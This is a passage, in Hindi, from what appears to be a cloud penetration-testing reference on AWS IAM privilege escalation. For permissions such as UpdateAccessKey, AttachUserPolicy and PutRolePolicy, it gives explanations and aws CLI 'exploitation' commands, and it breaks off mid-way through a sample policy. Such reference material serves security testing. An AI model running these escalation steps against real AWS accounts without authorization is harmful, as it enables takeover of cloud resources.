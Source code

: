 ### **`iam:UpdateAccessKey`**

एक अक्षम एक्सेस कुंजी को सक्षम करने की अनुमति देता है, यदि हमलावर के पास अक्षम कुंजी है तो यह अनधिकृत पहुंच की संभावना पैदा कर सकता है।

**शोषण:**
```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```
**प्रभाव:** एक्सेस कीज़ को फिर से सक्रिय करके सीधे विशेषाधिकार वृद्धि।

### **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**

विशिष्ट AWS सेवाओं (जैसे, CodeCommit, Amazon Keyspaces) के लिए क्रेडेंशियल बनाने या रीसेट करने की अनुमति देता है, संबंधित उपयोगकर्ता के अनुमतियों को विरासत में लेते हुए।

**निर्माण के लिए शोषण:**
```bash
aws iam create-service-specific-credential --user-name <username> --service-name <service>
```
**रीसेट के लिए शोषण:**
```bash
aws iam reset-service-specific-credential --service-specific-credential-id <credential_id>
```
**प्रभाव:** उपयोगकर्ता की सेवा अनुमतियों के भीतर सीधे विशेषाधिकार वृद्धि।

### **`iam:AttachUserPolicy` || `iam:AttachGroupPolicy`**

उपयोगकर्ताओं या समूहों को नीतियों को संलग्न करने की अनुमति देता है, संलग्न नीति की अनुमतियों को विरासत में लेकर सीधे विशेषाधिकार बढ़ाता है।

**उपयोगकर्ता के लिए शोषण:**
```bash
aws iam attach-user-policy --user-name <username> --policy-arn "<policy_arn>"
```
**समूह के लिए शोषण:**
```bash
aws iam attach-group-policy --group-name <group_name> --policy-arn "<policy_arn>"
```
**प्रभाव:** नीति द्वारा प्रदान की गई किसी भी चीज़ पर सीधे विशेषाधिकार वृद्धि।

### **`iam:AttachRolePolicy`,** ( `sts:AssumeRole`|`iam:createrole`) | **`iam:PutUserPolicy` | `iam:PutGroupPolicy` | `iam:PutRolePolicy`**

भूमिकाओं, उपयोगकर्ताओं, या समूहों पर नीतियों को संलग्न करने या रखने की अनुमति देता है, जिससे अतिरिक्त अनुमतियाँ प्रदान करके सीधे विशेषाधिकार वृद्धि संभव होती है।

**भूमिका के लिए शोषण:**
```bash
aws iam attach-role-policy --role-name <role_name> --policy-arn "<policy_arn>"
```
**इनलाइन नीतियों के लिए शोषण:**
```bash
aws iam put-user-policy --user-name <username> --policy-name "<policy_name>" \
--policy-document "file:///path/to/policy.json"

aws iam put-group-policy --group-name <group_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json

aws iam put-role-policy --role-name <role_name> --policy-name "<policy_name>" \
--policy-document file:///path/to/policy.json
```
आप एक नीति का उपयोग कर सकते हैं जैसे:
```json
{
"Version": "2012-10-17",
"Statement": [
```